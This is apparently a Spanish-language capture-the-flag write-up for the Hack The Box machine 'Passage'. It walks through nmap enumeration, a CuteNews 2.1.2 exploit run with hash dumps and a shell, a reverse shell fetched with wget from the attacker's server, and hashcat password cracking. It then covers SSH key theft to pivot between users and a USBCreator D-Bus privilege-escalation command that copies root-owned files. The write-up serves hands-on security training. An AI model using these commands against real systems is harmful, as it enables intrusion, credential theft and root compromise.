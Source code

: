 ```yaml
---
title: "HTB - Passage"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/passage.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```



OS | LINUX
Desarrollado por | ChefByzen
Dificultad | Medio
Liberación | 05 Septiembre 2020
Puntos | 30

## Enumeración
Al usar nmap utilizando nmap -sCV -A 10.10.10.206 solo encontramos que está abierto el 80 (web).

````
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-17 23:49 -03
Nmap scan report for passage.htb (10.10.10.206)
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
| 256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_ 256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News

No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


TRACEROUTE (using port 993/tcp)
HOP RTT ADDRESS
1 228.04 ms 10.10.14.1
2 228.12 ms passage.htb (10.10.10.206)

OS and Service detection performed. Please report any incorrect
results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds
```

Nos damos cuenta que solo está abierto el puerto 80 por lo que empezamos a revisar la pagina, y nos percatamos que es un CuteNews con versión 2.1.2, el cual es gestor de noticias/sistema de publicación blog, creado por el equipo de desarrolladores de CutePHP.

Esta versión en particular posee una exploid escrito en python que permite obtener privilegios básicos.

## 1° Shell

Ejecutamos nuestro script encontrado en exploid-db y obtenermos

```
[->] Usage python3 expoit.py
Enter the URL> http://10.10.10.206
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================
=============================
Registering a users
=============================
[+] Registration successful with username: hKjUyJw643 andpassword: hKjUyJw643
=======================================================
Sending Payload
=======================================================
signature_key: 988ee4f0201d4c681811c25628f9aeec-hKjUyJw643
signature_dsi: 73fcc7f25ad2b8bcdd2150941bfea878
logged in user: hKjUyJw643
============================
Dropping to a SHELL
============================
command > whoami
www-data
```

En caso de que querer una shell con opciones, simplemente subimos una shell-reverse para ejecutarla desde el navegador. Para ello ejecutamos python -m SimpleHTTPServer en nuestra terminal y desde la maquina victima bajamos el archivo de la shell revers con wget
<URL/ARCHIVO.php>, como esta segunda terminal es mejor que la anterior pero igual básica se puede mejorar con el comando python -c "import pty;pty.spawn('/bin/bash')" luego apretamos Ctrl+Z, que nos devuelve a nuestra terminal, escribimos stty raw -echo con la terminal no trabajando bien escribimos fg y apretamos enter (esto último lo hacemos dos veces) para volver a la terminal de
la máquina victima pero mejorada, para finalizar escribimos export TERM=xterm

## Shell Usuario 1

Una vez obtenida la shell inicial, empezamos a buscar información y nos encontramos que existen dos usuarion paul y nadav

Como no se puede acceder a ni una carpeta de usuario empezamos a revisar los codigos fuentes de CuteNews empezando a leer los archivos nos percatamos que en /var/www/html/CuteNews/cdata/users/line hay datos cifrado en base64, al revisar cada dato nos da
la pass de paul y nadav en sha256.

Usando hashcat y el diccionario wordlist obtenemos el pass de paul con el script **hashcat -m 1400 -a 0 paul.hash /usr/share/wordlists/rockyou.txt** obtenemos que el password de paul es atlanta1.

Solo nos queda obtener sus permisos con su paul y escribir el pass.

## Shell Usuario 2

Con el usuario paul, revisamos sus archivos y nos damos cuenta que tiene el archivo user.txt con la flag de usuario.

Además en la carpeta .ssh está los id_rsa que podemos utilizar para abrir un ssh desde nuestra terminal al usuario paul, para ello descargamos el id_rsa a nuestro equipo y le damos privilegio 600 para poder ejecutarlos.

Seguimos revisando la carpeta .ssh y nos percatamos que pual se puede conectar con shh a nadav por lo que ejecutamos ssh nadav@localhost y obtenemos la shell de nadav.

```
paul@passage:~$ ssh nadav@localhost
Last login: Sun Jan 17 17:25:13 2021 from 10.10.14.187
nadav@passage:~$
```

De igual manera que con el id_rsa de paul se puede obtener el ssh de nadav y poder conectarnos a futuro con este usuario.

## Root Shell

Empezamos a enumerar puertos y procesos dentro de la maquina, si bien hay un puerto que esta corriendo en localhost (puerto 631) esto es un distractor, por lo que nos quedamos con los procesos que está corriendo y nos llama la atención un proceso que se ejecuta en python con privilegios de root.

```
root 3313 0.0 0.4 235544 19956 ? Sl 17:45
0:00 /usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```

Al revisar este archivo podemos darnos cuenta que tiene privilegios de root pero puede ser ejecutados por cualquier usuario.

Leyendo en https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-inubuntu-desktop/ nos explica que se puede ejecutar una escalada de privilegio con el comando por lo que solo debemos escribir gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image y pasar root/root.txt a
home/nadav/root.txt de la siguiente manera gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --
method com.ubuntu.USBCreator.Image /root/root.txt /home/nadav/root.txt true

Para finalizar solo debemos leer el archivo y obtener la flag, si se quiere obtener la shell en ves de obtener el archivo root.txt hay que pasar el archivo root/.ssh/id_rsa y realizar los mismo pasos que con los id_rsa anteriores.

![Racso](https://www.hackthebox.com/badge/image/159593)